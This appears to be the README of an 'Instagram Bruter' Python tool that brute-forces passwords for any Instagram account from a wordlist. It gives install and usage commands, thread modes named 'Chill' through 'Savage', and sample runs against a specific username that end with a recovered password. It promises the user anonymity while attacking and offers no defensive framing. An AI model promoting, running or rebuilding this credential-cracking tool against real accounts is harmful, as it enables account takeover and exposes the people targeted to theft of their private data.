 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Amyth\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Amyth\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Amyth\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Amyth\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Amyth\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
